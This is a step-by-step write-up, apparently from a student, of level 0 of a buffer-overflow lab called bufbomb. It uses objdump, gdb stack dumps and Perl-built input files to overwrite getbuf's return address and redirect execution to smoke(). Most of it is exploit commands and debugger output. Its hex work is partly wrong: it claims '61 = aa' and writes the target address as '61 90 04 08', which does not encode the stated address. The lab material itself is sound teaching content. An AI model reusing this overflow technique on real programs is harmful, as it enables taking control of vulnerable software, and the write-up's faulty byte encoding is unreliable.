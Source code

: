 Level 0: Candle
===============

Goal = provide a string longer than getbuf can handle causing an overflow and pushing the rest of the string onto the stack where you can then control where the function getbuf returns after exection.

Main Steps:

1. locate the address of the function ```smoke()```

   To find the address of function ```smoke()``` type:
   ```unix> objdump -d bufbomb | less```
 
   My address for ```smoke()``` = 080490aa <smoke>:

   <b>write down the address for ```smoke()``` as you will be using it later</b>


2. calculate the length of the string size to cause an overflow
   ```
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) run -u quinnliu
   (gdb) break *getbuf+17
   (gdb) disas
   (gdb) info registers
   ```

   Gives you:

   ```
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
   => 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
      0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   (gdb) info registers
   eax            0x45789ae        72845742
   ecx            0x45789ae        72845742
   edx            0x3c1048 3936328
   ebx            0x0      0
   esp            0x55683318       0x55683318
   ebp            0x55683350       0x55683350
   esi            0x55686018       1432903704
   edi            0xc60    3168
   eip            0x8048c0a        0x8048c0a <getbuf+6>
   eflags         0x216    [ PF AF IF ]
   cs             0x23     35
   ss             0x2b     43
   ds             0x2b     43
   es             0x2b     43
   fs             0x0      0
   gs             0x63     99
   (gdb)
   ```

   Remember that the goal is to push a string that goes one address beyond the location of %ebp. 

   <b>write down %ebp address as you will be using it later. In my case:</b>

   %ebp = 0x55683350 

   getBuf() will take 32 characters. To modify the return address, we will need the buffer to extend to the address space right after %ebp on the stack or (%ebp)+4. So 32 bytes will be allocated to the buf variable for getbuf(). We need to look at the stack to determine the rest of the buffer size.

   Now quit out
   ```
   (gdb) q
   A debugging session is active.

           Inferior 1 [process 29088] will be killed.

   Quit anyway? (y or n) y
   ```

   Now create a test input file called "hex" and type a few commands
   ```
   unix> perl -e 'print "A"x32 '> hex
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) break *getbuf+17
   (gdb) run -u quinnliu < hex
   (gdb) x/20x $esp
   (gdb) disas
   ```

   Gives you:

   ```
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683330      0x00263b36      0x003c132c      0x55683328
   0x55683328 <_reserved+1037096>: 0x41723de3      0x00000000      0x55683350      0x08048b48
   0x55683338 <_reserved+1037112>: 0x00007399      0x5568338c      0x00000001      0x00000000
   0x55683348 <_reserved+1037128>: 0x55683370      0x003c0ff4      0x55683380      0x08048c93
   0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
   => 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
      0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   ```

   Next type these commands:
   ```
   (gdb) continue
   (gdb) disas # notice that we are now at <+17>
   (gdb) x/20x $esp
   ```

   Gives you:
   ```
   (gdb) continue
   Continuing.

   Breakpoint 2, 0x08048c15 in getbuf ()
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
      0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
   => 0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683328      0x00263b36      0x003c132c      0x55683328
   0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141      0x41414141
   0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141      0x41414141
   0x55683348 <_reserved+1037128>: 0x55683300      0x003c0ff4      0x55683380      0x08048c93
   0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
   ```

   We can see that the "buf" variable stores its 32 byte string on the stack. Starting at address 0x55683328 and ending right before 0x55683348.

   startingAddressOfBufVariable = 0x55683328
   %ebp = 0x55683350 # I told you to write this down earlier

   buffer size = addressAt%ebp+4 - startingAddressOfBufVariable
               = 0x55683350   +4 - 0x55683328
               # make sure to use a hex calculator like this one: http://www.squarebox.com/legacy/hcalc.html
               = 2C # in hexadecimal = 44 bytes # in decimal

   We know that 32 bytes are used to store the "buf" variable as seen when we print out the registers after giving the "hex" file as input

   44 - 32 = 12 bytes left to fill the stack right before the return address(<= WHOLE POINT IS TO MANIPULATE THIS)

   Now quit out of gdb with ```q``` command and type:


3. create the buffer overflow string

   ```
   bash-4.1$ perl -e 'print "A"x32 ,"B"x4, "C"x4, "D"x4 '>hex2
   bash-4.1$ ls
   bufbomb  exploit.txt  hex  hex2  hex2raw  makecookie
   bash-4.1$ less hex2
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD
   ```

   Now use hex2 as your new input in gdb:
   ```
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) break *getbuf+17
   (gdb) run -u quinnliu < hex2
   (gdb) x/20x $esp
   (gdb) continue
   (gdb) x/20x $esp 
   ```

   On the second call of ```(gdb) x/20x $esp``` 
   
   you will see:
   ```
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683328      0x00bafb36      0x00d0d32c       0x55683328
   0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141       0x41414141
   0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141       0x41414141
   0x55683348 <_reserved+1037128>: 0x42424242      0x43434343      0x44444444       0x08048c00
   0x55683358 <_reserved+1037144>: 0x55683380      0x00bca610      0x55686018       0x00000c60
   (gdb)
   ```

   Understand that our input file is:
   ```
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD
   ```
   where A = 41, B = 42, C = 43, & D = 44

   So DDDD = 0x44444444

   After DDDD is 0x08048c00 <= THIS IS THE RETURN ADDRESS WE BE CHANGE the address of ```smoke()```!!!!!

4. force the function getbuf to return to fucntion ```smoke()``` instead of returning the value 1.

   Find where you wrote down the address of ```smoke()``` earlier. Mine is = 080490aa

   Because my machine is little endian the least significant byte is first.

   So 
   ```08 04 90 aa``` => ```aa 90 04 08```

   Now exit out of gdb:
   ```
   bash-4.1$ perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "61 90 04 08" '>hex3
   ```
   WHERE 61 = aa

   Now using the hex2raw executable file you can convert the hex3 text file into a raw file to be submitted as your answer to the bufferbomb.

   Type:
   ```./hex2raw < hex3 > raw```

5. Almost there!!!!!!!!!!

   Now actually give your "raw" file as input to the Buffer Bomb:
   ```./bufbomb -u quinnliu < raw```

   And you should get the following output:
   ```
   Userid: quinnliu 
   Cookie: 0x2d8cc70c
   Type string:Smoke!: You called smoke()
   VALID
   NICE JOB!
   ```
